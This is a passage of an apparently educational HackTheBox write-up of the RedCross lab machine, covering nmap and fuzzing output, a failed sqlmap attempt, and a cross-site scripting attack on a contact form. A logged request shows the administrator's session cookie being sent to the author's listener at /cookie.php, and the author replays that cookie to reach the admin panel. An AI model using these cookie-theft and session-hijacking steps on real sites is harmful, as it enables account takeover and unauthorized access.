# HackTheBox RedCross

## NMAP

```bash
PORT    STATE SERVICE  REASON         VERSION
22/tcp  open  ssh      syn-ack ttl 63 OpenSSH 7.9p1 Debian 10+deb10u3 (protocol 2.0)
| ssh-hostkey: 
|   2048 67:d3:85:f8:ee:b8:06:23:59:d7:75:8e:a2:37:d0:a6 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCvHxBEHZStDr7Frfk25i6xP+UPJUeVxLxxjZ9M52P3RH3o9II26fOQkuVq0V9y+jAMzpOEPVOHm0KrD9T3R8rPUebJM8qPQfMjs4d7vefyHhCv0wJ1UlRcMv7wi3+8hJ3ATWXkeTnRHtloNrvN9IkII1zRApDM5qAKVZf7kLH8vppgAkK6XX0RfvEbiiIF4/4t9Swk0pqKazlBoxNmuBQ0ZBC09vlkbx4hJGR/7xQ18PJP/RoUNQgLFMeaGVq1c+/44w8G6G125w671x0NO9dvysiF1XAtRWvYuc6B0Y9RXdZ+Fl4UyPcBfnfjDS0uT6MF5LP4HYZwAq8UVkN6zaXD
|   256 89:b4:65:27:1f:93:72:1a:bc:e3:22:70:90:db:35:96 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBD0fZY6OjH5EARn0aeiHLZb2aOe8knzx1q3pZSdXd9jHvpmRfuLhu7Pw+BLaQW0WJJ5ZNfIdSgx8epBblM6PBgk=
|   256 66:bd:a1:1c:32:74:32:e2:e6:64:e8:a5:25:1b:4d:67 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOMWzieju6+BudzSxF+Zl5/b1kQZ+vJVlxmSfVeirE0K
80/tcp  open  http     syn-ack ttl 63 Apache httpd 2.4.38
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Did not follow redirect to https://intra.redcross.htb/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
443/tcp open  ssl/http syn-ack ttl 63 Apache httpd 2.4.38
| tls-alpn: 
|_  http/1.1
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Did not follow redirect to https://intra.redcross.htb/
| ssl-cert: Subject: commonName=intra.redcross.htb/organizationName=Red Cross International/stateOrProvinceName=NY/countryName=US/emailAddress=penelope@redcross.htb/organizationalUnitName=IT/localityName=New York
| Issuer: commonName=intra.redcross.htb/organizationName=Red Cross International/stateOrProvinceName=NY/countryName=US/emailAddress=penelope@redcross.htb/organizationalUnitName=IT/localityName=New York
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2018-06-03T19:46:58
| Not valid after:  2021-02-27T19:46:58
| MD5:   f95b:6897:247d:ca2f:3da7:6756:1046:16f1
| SHA-1: e86e:e827:6ddd:b483:7f86:c59b:2995:002c:77cc:fcea
| -----BEGIN CERTIFICATE-----
| MIIEFjCCAv6gAwIBAgIJAOvkz8L8YpWbMA0GCSqGSIb3DQEBCwUAMIGfMQswCQYD
| VQQGEwJVUzELMAkGA1UECAwCTlkxETAPBgNVBAcMCE5ldyBZb3JrMSAwHgYDVQQK
| DBdSZWQgQ3Jvc3MgSW50ZXJuYXRpb25hbDELMAkGA1UECwwCSVQxGzAZBgNVBAMM
| EmludHJhLnJlZGNyb3NzLmh0YjEkMCIGCSqGSIb3DQEJARYVcGVuZWxvcGVAcmVk
| Y3Jvc3MuaHRiMB4XDTE4MDYwMzE5NDY1OFoXDTIxMDIyNzE5NDY1OFowgZ8xCzAJ
| BgNVBAYTAlVTMQswCQYDVQQIDAJOWTERMA8GA1UEBwwITmV3IFlvcmsxIDAeBgNV
| BAoMF1JlZCBDcm9zcyBJbnRlcm5hdGlvbmFsMQswCQYDVQQLDAJJVDEbMBkGA1UE
| AwwSaW50cmEucmVkY3Jvc3MuaHRiMSQwIgYJKoZIhvcNAQkBFhVwZW5lbG9wZUBy
| ZWRjcm9zcy5odGIwggEiMA0GCSqGSIb3DQEBAQUAA4IBDwAwggEKAoIBAQD2OP+5
| cB676azABMDt9hhAs1ZxiRbtEK5zH3LFfdqAcjmQ/3qKIF5Z4IKGorFnacCaNyzm
| PKD1RvNX89vDseUNSLIri+yHXhBV6xYvFhLAVyBtr0qftnGVj2H+i2cXoJ2HnG0S
| Ir5GvShE9Vuz++/3bZm++UugOp3P4jqsQhbOnGsuVEk02SG1t/sj8TpbiHdvp6IL
| Pk7R5/wSPceMiAUqTiJlnh6Ta/M1jlc/8cSEOuvc6svcqzNc4fgdzc7CZs5BdXkl
| 2/yS5N3L1/BGtT7ybuyqAAG6WIoXm7lzelznyfhbA64msCKDxZjc7vA4Pbf2H7Pg
| BZc+ykRALZlBWl6fAgMBAAGjUzBRMB0GA1UdDgQWBBTTL+T9ZVOmffuspVFB7Kjr
| GiKZJjAfBgNVHSMEGDAWgBTTL+T9ZVOmffuspVFB7KjrGiKZJjAPBgNVHRMBAf8E
| BTADAQH/MA0GCSqGSIb3DQEBCwUAA4IBAQBCXgR48Nj5D0C+aVEh4QMQHQ8h8CUs
| zKwaEfZLBDhAfxPNv33OQ9HY8j/hfW4rmmIRUtXg3yUdUjVHUzU69UTTTZ19klgu
| YkAZ3IbGd1hvDc6efP25BwsIVByVM+/9suItUP0L7dp1PIzhObV6lHiXlU2nWu+1
| fnQY2MRwhmc/O0cEQ3tZ5UHy8Ix8jEH+jJceLY671uWB0CELFKcXWI2p4G7MYRyj
| 9/FNo7Kd84A7/ifogbSwJBobzgtQn9+4clbe+D1KJ7+OmvJHWJK47zHO1CZISXg6
| hKbexhCs7Ab0ipy5wlmzB9PkK7X12ze72Jalhc7hyTDTAY71WB1ZAYw2
|_-----END CERTIFICATE-----
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_ssl-date: TLS randomness does not represent time
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
* redcross.htb, intra.redcross.htb - Both added to /etc/hosts
* NMAP also finds an email address: "penelope@redcross.htb"

## Webpage(s)

#### Index page

Visiting http://redcross.htb redirects to: "https://intra.redcross.htb/?page=login"



My first thought upon seeing "?page=login" is to see if a LFI exists



No luck (yet) =/

I dont want to get hung up on one thing right away, so I'll start fuzzing for directories and pages.

#### https://intra.redcross.htb FUZZ
```bash
301      GET        9l       28w      327c https://intra.redcross.htb/images => https://intra.redcross.htb/images/
200      GET       26l      116w     7986c https://intra.redcross.htb/images/logo.png
302      GET        1l       26w      463c https://intra.redcross.htb/ => https://intra.redcross.htb/?page=login
302      GET        1l       26w      463c https://intra.redcross.htb/index.php => https://intra.redcross.htb/?page=login
301      GET        9l       28w      326c https://intra.redcross.htb/pages => https://intra.redcross.htb/pages/
301      GET        9l       28w      331c https://intra.redcross.htb/javascript => https://intra.redcross.htb/javascript/
200      GET        1l       18w      403c https://intra.redcross.htb/pages/contact.php
200      GET        1l       29w      506c https://intra.redcross.htb/pages/login.php
200      GET        0l        0w        0c https://intra.redcross.htb/init.php
302      GET        0l        0w        0c https://intra.redcross.htb/pages/app.php => https://intra.redcross.htb/
200      GET        1l       26w      463c https://intra.redcross.htb/pages/header.php
```

I fuzzed for parameters on: index.php, contact.php, login.php, init.php, app.php, header.php but didnt get any results.

#### Vhost FUZZ

```bash
Found: admin.redcross.htb Status: 421 [Size: 407]
```
Gobuster found one additional vhost. Added to /etc/hosts

#### https://admin.redcross.htb FUZZ

```bash
301      GET        9l       28w      327c https://admin.redcross.htb/images => https://admin.redcross.htb/images/
200      GET        1l       73w     1029c https://admin.redcross.htb/images/it.svg
302      GET        1l       18w      363c https://admin.redcross.htb/ => https://admin.redcross.htb/?page=login
302      GET        1l       18w      363c https://admin.redcross.htb/index.php => https://admin.redcross.htb/?page=login
301      GET        9l       28w      326c https://admin.redcross.htb/pages => https://admin.redcross.htb/pages/
301      GET        9l       28w      331c https://admin.redcross.htb/javascript => https://admin.redcross.htb/javascript/
200      GET        1l       16w      380c https://admin.redcross.htb/pages/login.php
301      GET        9l       28w      331c https://admin.redcross.htb/phpmyadmin => https://admin.redcross.htb/phpmyadmin/
200      GET        0l        0w        0c https://admin.redcross.htb/init.php
302      GET        0l        0w        0c https://admin.redcross.htb/pages/users.php => https://admin.redcross.htb/
301      GET        9l       28w      338c https://admin.redcross.htb/phpmyadmin/themes => https://admin.redcross.htb/phpmyadmin/themes/
301      GET        9l       28w      334c https://admin.redcross.htb/phpmyadmin/js => https://admin.redcross.htb/phpmyadmin/js/
200      GET       38l       73w      662c https://admin.redcross.htb/phpmyadmin/js/codemirror/addon/hint/show-hint.css
200      GET      325l      922w     7771c https://admin.redcross.htb/phpmyadmin/js/codemirror/lib/codemirror.css
200      GET      267l      586w     6763c https://admin.redcross.htb/phpmyadmin/js/get_image.js.php
200      GET       26l      103w     8638c https://admin.redcross.htb/phpmyadmin/themes/pmahomme/img/logo_right.png
200      GET       77l      147w     3068c https://admin.redcross.htb/phpmyadmin/js/codemirror/addon/lint/lint.css
200      GET        0l        0w        0c https://admin.redcross.htb/phpmyadmin/js/get_scripts.js.php
200      GET       49l       53w     2061c https://admin.redcross.htb/phpmyadmin/js/whitelist.php
302      GET        0l        0w        0c https://admin.redcross.htb/phpmyadmin/url.php => https://admin.redcross.htb/phpmyadmin/
200      GET       26l      359w    10637c https://admin.redcross.htb/phpmyadmin/index.php
200      GET        1l       18w      363c https://admin.redcross.htb/pages/header.php
200      GET      170l      365w     2611c https://admin.redcross.htb/phpmyadmin/themes/pmahomme/css/printview.css
200      GET     1225l     3355w    35020c https://admin.redcross.htb/phpmyadmin/themes/pmahomme/jquery/jquery-ui-1.11.4.css
200      GET      394l     2973w    29261c https://admin.redcross.htb/phpmyadmin/js/messages.php
200      GET        1l        1w       53c https://admin.redcross.htb/phpmyadmin/themes/dot.gif
200      GET       26l      359w    10638c https://admin.redcross.htb/phpmyadmin/themes.php
200      GET      212l      812w    13348c https://admin.redcross.htb/phpmyadmin/doc/html/index.html
200      GET       98l      278w    35231c https://admin.redcross.htb/phpmyadmin/favicon.ico
200      GET       26l      359w    10644c https://admin.redcross.htb/phpmyadmin/db_structure.php
200      GET     5185l    11337w   106113c https://admin.redcross.htb/phpmyadmin/phpmyadmin.css.php
200      GET       26l      359w    10638c https://admin.redcross.htb/phpmyadmin/logout.php
200      GET       26l      359w    10638c https://admin.redcross.htb/phpmyadmin/export.php
```

Theres quite a bit to look at here, we see the same "?page=login" parameter. I again searched for LFI but didnt find anything.


#### https://intra.redcross.htb FUZZ two

If my initial directory enumeration doesnt find much, I'll run annother one in the background with a bigger wordlist. This time I ended up getting an additional hit.

```bash
/.php                 (Status: 403) [Size: 284]
/images               (Status: 301) [Size: 327] [--> https://intra.redcross.htb/images/]
/.html                (Status: 403) [Size: 284]
/.htm                 (Status: 403) [Size: 284]
/pages                (Status: 301) [Size: 326] [--> https://intra.redcross.htb/pages/]
/javascript           (Status: 301) [Size: 331] [--> https://intra.redcross.htb/javascript/]
/.                    (Status: 302) [Size: 463] [--> /?page=login]
/.htaccess            (Status: 403) [Size: 284]
/.php3                (Status: 403) [Size: 284]
/.phtml               (Status: 403) [Size: 284]
/documentation        (Status: 301) [Size: 334] [--> https://intra.redcross.htb/documentation/]
```

/documentation could be something. I'm not sure why "raft-small-words.txt" didn't pick that up on my first fuzz. But "directory-list-2.3-medium.txt" got it this time. So because I used Gobuster this time, it didn't search recursively. I'll fuzz this one manually.

```bash
/account-signup.pdf   (Status: 200) [Size: 26001]
```

Gobuster gets a hit on a PDF file! In my background directory fuzzes I'll typically add: php,txt,pdf,zip,bak to my extensions switch.

#### Account signup and SQLi attempt



Ok, so it looks like we can get an account by posting to the contact form.







Should be able to log into the webapp now!



Ok theres a few things here to pay attention to. We can see an admin user that has a UID of "1", a guest user with a UID of "5", and a UserID filter parameter. My first thought is to fuzz the filter. Only "1" returns any data.
There's not much else to see on this page, I cant get messages for other users. There is an interesting SQL error though when entering a single quote in the UserID parameter.



This immediatley makes me think that SQL Injection will be the way to go here.

```bash
sqlmap -r guest-filter.req 
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.8.3#stable}
|_ -| . [.]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 20:33:31 /2024-05-14/

[20:33:31] [INFO] parsing HTTP request from 'guest-filter.req'
[20:33:31] [INFO] testing connection to the target URL
got a 301 redirect to 'https://intra.redcross.htb/?o=5&page=app'. Do you want to follow? [Y/n] y
[20:33:37] [INFO] checking if the target is protected by some kind of WAF/IPS
[20:33:38] [INFO] testing if the target URL content is stable
[20:33:38] [WARNING] GET parameter 'o' does not appear to be dynamic
[20:33:38] [INFO] heuristic (basic) test shows that GET parameter 'o' might be injectable (possible DBMS: 'MySQL')
[20:33:38] [INFO] heuristic (XSS) test shows that GET parameter 'o' might be vulnerable to cross-site scripting (XSS) attacks
[20:33:38] [INFO] testing for SQL injection on GET parameter 'o'
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
[20:34:06] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[20:34:06] [WARNING] reflective value(s) found and filtering out
[20:34:08] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[20:34:08] [INFO] testing 'Generic inline queries'
[20:34:08] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (MySQL comment)'
[20:34:41] [WARNING] there is a possibility that the target (or WAF/IPS) is dropping 'suspicious' requests
[20:34:41] [CRITICAL] connection timed out to the target URL. sqlmap is going to retry the request(s)
[20:34:46] [WARNING] user aborted during detection phase
how do you want to proceed? [(S)kip current test/(e)nd detection phase/(n)ext parameter/(c)hange verbosity/(q)uit] q
[20:34:47] [ERROR] user quit
```

I saved the request from Burp and then ran sqlmap against it. It didn't take long for the connection to drop due to WAF. I actually had to restart the machine because of this lol. I'll save SQLi for later if I absolutely cannot find another path to take.

## Initial access

Sqlmap ended up crashing the server, but it did give some interesting information. 

```bash
[20:33:38] [INFO] heuristic (XSS) test shows that GET parameter 'o' might be vulnerable to cross-site scripting (XSS) attacks
```

I did try a few XSS payloads in the "body" parameter of the contact form but had no luck. They actually get flagged as suspicious activity.



After the failed SQLi I decided to come back to the form. The PDF file does state that the form is being sent to the IT Administrator. Perhaps I can grab the cookie?
I went ahead and started testing the other parameters and did get something to work!



```bash
10.10.10.113 - - [14/May/2024 23:47:11] code 404, message File not found
10.10.10.113 - - [14/May/2024 23:47:11] "GET /cookie.php?c=PHPSESSID=4t1c9gs1ja972muc6dcovo7ic4;%20LANG=EN_US;%20SINCE=1715759235;%20LIMIT=10;%20DOMAIN=admin HTTP/1.1" 404 -
```

Now we should be able to login to the messaging system as an admin! (hopefully)



Theres some interesting information here, notably:

```txt
From: admin (uid 1)	To: charles (uid 3)

Please could you check the admin webpanel? idk what happens but when I'm checking the messages, alerts popping everywhere!! Maybe a virus?
```

I'm guessing that the cookie for this subdomain will work on the admin subdomain as well. I ran FFUF for about a minute just to try to grab a couple pages.

```bash
ffuf -c -u 'https://admin.redcross.htb/?page=FUZZ' -w /opt/raft-small-words.txt --fc 200

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : https://admin.redcross.htb/?page=FUZZ
 :: Wordlist         : FUZZ: /opt/raft-small-words.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 200
________________________________________________

users                   [Status: 302, Size: 363, Words: 18, Lines: 1, Duration: 51ms]
cpanel                  [Status: 302, Size: 363, Words: 18, Lines: 1, Duration: 76ms]
```

Two hits: users and cpanel. I filteres status code 200 because real pages were returning 302.

From here I figured that 'cpanel' looked the most promising. I intercepted the request to "https://admin.redcross.htb/?page=cpanel" and replaced the cookie with: "PHPSESSID=4t1c9gs1ja972muc6dcovo7ic4; LANG=EN_US; SINCE=1715759235; LIMIT=10; DOMAIN=admin"

